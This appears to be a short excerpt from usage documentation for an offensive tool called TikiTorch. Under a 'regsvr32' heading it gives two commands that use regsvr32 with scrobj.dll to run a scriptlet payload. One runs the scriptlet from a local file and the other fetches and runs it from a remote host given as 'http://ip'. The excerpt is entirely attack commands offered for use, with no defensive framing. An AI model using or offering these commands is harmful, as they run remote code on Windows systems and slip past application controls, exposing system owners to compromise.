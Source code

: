 ## regsvr32

```
regsvr32 /s /n /u /i:TikiTorch.sct scrobj.dll
regsvr32 /s /n /u /i:http://ip/TikiTorch.sct scrobj.dll
```

> File extension not required with regsvr32